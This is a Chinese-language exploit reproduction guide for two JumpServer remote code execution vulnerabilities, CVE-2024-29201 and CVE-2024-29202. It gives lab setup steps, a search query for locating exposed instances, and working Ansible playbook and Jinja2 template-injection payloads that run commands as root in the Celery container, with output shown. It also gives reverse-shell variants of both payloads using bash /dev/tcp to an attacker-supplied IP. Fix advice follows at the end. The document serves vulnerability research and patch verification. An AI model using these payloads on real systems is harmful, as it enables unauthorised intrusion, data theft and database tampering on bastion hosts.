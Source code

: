 # JumpServer 远程代码执行漏洞 CVE-2024-29201&CVE-2024-29202

## 漏洞描述

JumpServer 是使用广泛的开源堡垒机，使用 GNU GPL v2.0 开源协议，是符合 4A 规范的运维安全审计系统。

- CVE-2024-29201 远程代码执行漏洞：由于 JumpServer 中的 Ansible 模块未进行完整的输入验证，具有低权限账户的攻击者可以绕过输入验证机制在 Celery 容器中执行任意代码，并从主机中窃取敏感信息或操纵数据库。
- CVE-2024-29202 Jinjia2 模板注入漏洞：经过身份验证的攻击者可以通过构建恶意 playbook 模板，利用 Ansible 中的 Jinja2 模板引擎在 Celery 容器中执行任意代码，并从主机中窃取敏感信息或操纵数据库。

**两个漏洞利用的条件都需要账号且至少有一个资产**。

参考链接：

- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-pjpp-cm9x-6rwj
- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-2vvr-vmvx-73ch
- https://wh0am1i.com/2024/03/30/JumpServer-CVE-2024-29201-CVE-2024-29202/

## 漏洞影响

```
v3.0.0 <= JumpServer <= v3.10.6
```

## 网络测绘

```
app="JumpServer-Bastion-Host"
```

## 环境搭建

下载官方提供的 [脚本](https://resource.fit2cloud.com/jumpserver/jumpserver/releases/latest/download/quick_start.sh)，编辑 `quick_start.sh`，将脚本中的 `VERSION` 修改为存在漏洞版本，如：`V3.10.6`。

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613091657786.png)

环境启动后，访问 `http://your-ip` 即可看到 JumpServer 首页，默认账号密码 `admin/admin`。默认密码登陆后，JumpServer 将强制要求用户修改密码。

### 创建用户

```
用户管理 → 用户列表 → 创建
```

创建用户 `threekiii`，后续将使用该账户进行攻击操作：

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613103551513.png)

### 添加资产

准备一个 Linux 资产：

```
[IP Address]         192.168.43.169
[Username/Password]  kali/kali
```

将这个 Linux 资产添加到资产列表，命名为 `test`：

```
资产管理 → 资产列表 → 创建
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613103706622.png)

添加完成后，点击更新，添加账号 `kali` 并配置密码为 `kali`：

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613103755148.png)

点击测试，以测试配置是否成功：

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613104139395.png)

### 授权资产

将上一步添加的资产 `test` 授权给用户 `threekiii`：

```
权限管理 → 资产授权 → 创建
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613104543397.png)

## 漏洞复现

### CVE-2024-29201

以攻击者用户 `threekiii` 登录 JumpServer，切换到工作台，创建 Playbook，命名为 `CVE-2024-29201`：

```
作业中心 → 模板管理 → Playbook管理 → 创建 → 创建playbook
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613104951909.png)

点击创建的 Playbook 名称 `CVE-2024-29201`，切换到工作空间，输入以下内容，保存：

```
[{
     "name": "RCE playbook",
     "hosts": "all",
     "tasks": [
       {
         "name": "this runs in Celery container",
         "shell": "id > /tmp/awesome_poc",
         "\u0064elegate_to": "localhost"
} ],
     "vars": {
     "ansible_\u0063onnection": "local"
     }
}]
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613105044366.png)

切换到作业管理，创建一个新的 Playbook 作业：

```
作业中心 → 作业管理 → 创建 → Playbook作业
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613105325676.png)

点击提交，运行作业：

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613105423507.png)

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613105455637.png)

进入 Celery 容器，成功在 `/tmp` 目录下创建 `awesome_poc` 文件：

```
root@jms_celery:/opt/jumpserver# ls /tmp
artifacts  awesome_poc  local.pid  worker_heartbeat_ansible  worker_heartbeat_celery  worker_ready_ansible  worker_ready_celery

root@jms_celery:/opt/jumpserver# cat /tmp/awesome_poc
uid=0(root) gid=0(root) groups=0(root)
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613105647162.png)

### CVE-2024-29202

以攻击者用户 `threekiii` 登录 JumpServer，切换到工作台，创建 Playbook，命名为 `CVE-2024-29202`：

```
作业中心 → 模板管理 → Playbook管理 → 创建 → 创建playbook
```

点击创建的 Playbook 名称 `CVE-2024-29202`，切换到工作空间，输入以下内容，保存：

```
- name: |
       {% for x in ().__class__.__base__.__subclasses__() %}
         {% if "warning" in x.__name__ %}
           {{
             x()._module.__builtins__["__import__"]("os").system("id > /tmp/awesome_poc_2")
           }}
         {%endif%}
       {%endfor%}
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613105850209.png)

切换到作业管理，创建一个新的 Playbook 作业：

```
作业中心 → 作业管理 → 创建 → Playbook作业
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613110023524.png)

点击提交，运行作业，报错不影响执行：

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613110939724.png)

进入 Celery 容器，成功在 `/tmp` 目录下创建 `awesome_poc_2` 文件：

```
root@jms_celery:/opt/jumpserver# ls /tmp
artifacts  awesome_poc  awesome_poc_2  local.pid  worker_heartbeat_ansible  worker_heartbeat_celery  worker_ready_ansible  worker_ready_celery
root@jms_celery:/opt/jumpserver# cat /tmp/awesome_poc_2 
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
192.168.250.7   jms_celery
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613110908696.png)

### Reverse Shell

CVE-2024-29201 payload：

```
[{
     "name": "RCE playbook",
     "hosts": "all",
     "tasks": [
       {
         "name": "this runs in Celery container",
         "shell": "bash -i >& /dev/tcp/your-ip/8888 0>&1",
         "\u0064elegate_to": "localhost"
} ],
     "vars": {
     "ansible_\u0063onnection": "local"
     }
}]
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613111436756.png)

CVE-2024-29202 payload：

```
- name: |
       {% for x in ().__class__.__base__.__subclasses__() %}
         {% if "warning" in x.__name__ %}
           {{
             x()._module.__builtins__["__import__"]("os").system("bash -i >& /dev/tcp/your-ip/8888 0>&1")
           }}
         {%endif%}
       {%endfor%}
```

![](images/JumpServer%20远程代码执行漏洞%20CVE-2024-29201&CVE-2024-29202/image-20240613111209119.png)

## 漏洞修复

1. 升级到 v3.10.7 版本。目前官方已在最新版本中修复了上述漏洞，下载链接： https://github.com/jumpserver/jumpserver/releases。
2. 关闭任务中心，任务中心位于：系统设置 - 功能设置 - 任务中心。
